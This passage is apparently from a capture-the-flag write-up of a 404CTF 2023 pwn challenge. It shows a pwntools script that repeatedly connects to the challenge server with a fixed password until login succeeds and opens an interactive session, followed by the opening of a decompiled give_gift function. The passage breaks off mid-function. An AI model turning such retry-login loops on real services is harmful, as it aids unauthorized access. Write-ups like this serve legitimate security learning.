 Code to spam requests:

```python
from pwn import *
import time

while True:
    #p = process("./cache_cache_le_retour")
    p = remote("challenges.404ctf.fr",31725)


    password = b'6qzQbN(m>@KROp^1(Gh:'

    p.recvuntil(b"mot de passe ?\n")
    p.sendline(password)

    sms = p.recv()

    if b'Je me vois au regret de refuser' in sms:
        p.close()
        #time.sleep(0.6)
        continue

print('terminate')
p.interactive()
```

![login](/assets/img/CTFs/404CTF2023/pwn/cache-cache_le_retour/login.png)

Now the give a gift function is executed.

Here is the give_a_gift function:

```c
undefined8 give_gift(void)
{
  __pid_t _Var1;
  int iVar2;
  size_t sVar3;
  undefined8 uVar4;
  long in_FS_OFFSET;
  int local_4b8;
  int local_4b4;
  char *local_4b0;
  size_t local_4a8;
  char *mystere_zip_str;
  char *surprise_txt_str;
  void *base64_decoded_input2;
  FILE *local_488;
  FILE *local_480;
  __ssize_t local_478;
  char *local_470;
  char *local_468;
  char *local_460;
  undefined8 local_458;
  char input1 [48];
  char input2 [1032];
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
```